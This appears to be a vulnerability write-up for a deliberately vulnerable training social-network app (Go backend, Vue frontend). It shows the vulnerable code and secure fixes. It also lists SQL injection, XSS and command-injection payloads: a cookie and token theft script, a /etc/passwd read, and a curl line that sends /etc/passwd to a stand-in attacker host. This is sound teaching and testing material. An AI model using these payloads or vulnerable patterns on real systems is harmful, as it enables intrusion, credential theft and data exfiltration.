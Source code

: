 # ca-ssg/vuln-sns Vulnerability Details

## SQL Injection Vulnerabilities

### Login SQL Injection
- **File**: `backend/internal/handlers/auth.go`
- **Function**: `Login()`
- **Vulnerable Code**:
```go
query := fmt.Sprintf("SELECT id, nickname, avatar_data FROM users WHERE id = '%s' AND password = SHA2('%s', 256)",
    credentials.UserID, credentials.Password)
```
- **Attack Payloads**:
  - `' OR '1'='1' --` (authentication bypass)
  - `alice' --` (specific user bypass)
- **Impact**: Authentication bypass, data extraction

### Post Operations SQL Injection
- **File**: `backend/internal/handlers/post.go`
- **Functions**: `CreatePost()`, `UpdatePost()`, `DeletePost()`
- **Vulnerable Code Examples**:
```go
// CreatePost
query := fmt.Sprintf("INSERT INTO posts (user_id, content) VALUES ('%s', '%s')", userID, post.Content)

// UpdatePost  
query := fmt.Sprintf("UPDATE posts SET content = '%s' WHERE id = %s AND user_id = '%s'", post.Content, postID, userID)

// DeletePost
query := fmt.Sprintf("DELETE FROM posts WHERE id = %s AND user_id = '%s'", postID, userID)
```
- **Impact**: Data manipulation, information disclosure

## Cross-Site Scripting (XSS)

### Post Content XSS
- **File**: `frontend/src/components/PostCard.vue`
- **Vulnerable Code**:
```vue
<div class="q-mt-sm" v-html="post.content" @click="handleHashtagClick"></div>
```
- **Attack Payloads**:
  - `<img src=x onerror="alert(1)">`
  - `<svg onload=alert(document.cookie)>`
  - `<img src=x onerror=alert(localStorage.getItem("token"))>`
- **Impact**: Session hijacking, malicious script execution

## OS Command Injection

### Avatar Upload Command Injection
- **File**: `backend/internal/handlers/profile.go`
- **Function**: `scanFile()`
- **Vulnerable Code**:
```go
cmd := exec.Command("sh", "-c", "echo 'Scanning file: ' && echo "+fileID)
```
- **Attack Payloads**:
  - `avatar.jpg && cat /etc/passwd`
  - `avatar.jpg; ls -la /`
  - `avatar.jpg | curl -X POST -d @/etc/passwd https://attacker.com/`
- **Attack Method**:
```bash
curl 'http://localhost:9090/api/profile/avatar' \
  -H 'Authorization: Bearer alice_token' \
  -H 'Content-Type: application/json' \
  --data-raw '{
    "file_id":"avatar.jpg && cat /etc/passwd",
    "image_data":"R0lGODlhAQABAIAAAP///////yH+BnBzYV9zbAAh+QQBCgABACwAAAAAAQABAAACAkwBADs="
  }'
```
- **Impact**: Remote code execution, system compromise

## Authentication Weaknesses

### Weak Token Generation
- **File**: `backend/internal/handlers/auth.go`
- **Vulnerable Code**:
```go
c.JSON(http.StatusOK, gin.H{
    "token": user.ID + "_token",
    "user":  user,
})
```
- **Issue**: Predictable token format
- **Impact**: Token prediction, session hijacking

### Password Logging
- **Files**: Various handler files
- **Issue**: Passwords may appear in application logs
- **Impact**: Information disclosure

## Secure Code Examples

### SQL Injection Prevention
```go
// Use prepared statements
stmt, err := h.db.Prepare("SELECT id, nickname FROM users WHERE id = ? AND password = SHA2(?, 256)")
err := stmt.QueryRow(credentials.ID, credentials.Password).Scan(&user.ID, &user.Nickname)
```

### XSS Prevention
```vue
<!-- Use v-text instead of v-html -->
<div class="q-mt-sm" v-text="post.content"></div>
```

### Command Injection Prevention
```go
// Avoid shell execution, use direct command execution
cmd := exec.Command("grep", "-q", "virus_signature", filePath)
// Or use safe file operations without external commands
```

## Testing Methodology

### SQL Injection Testing
1. Intercept login requests
2. Modify user_id parameter with SQL payloads
3. Observe authentication bypass or error messages
4. Test post creation/update with SQL payloads

### XSS Testing
1. Create posts with HTML/JavaScript payloads
2. View posts to trigger XSS
3. Check for script execution in browser console
4. Test cookie/token extraction

### Command Injection Testing
1. Upload avatar with malicious file_id
2. Check malware_scan field in response
3. Look for command output in API response
4. Test various command injection techniques

## Remediation Priority
1. **High**: SQL Injection (authentication bypass)
2. **High**: OS Command Injection (RCE)
3. **Medium**: XSS (session hijacking)
4. **Low**: Weak token generation
5. **Low**: Password logging
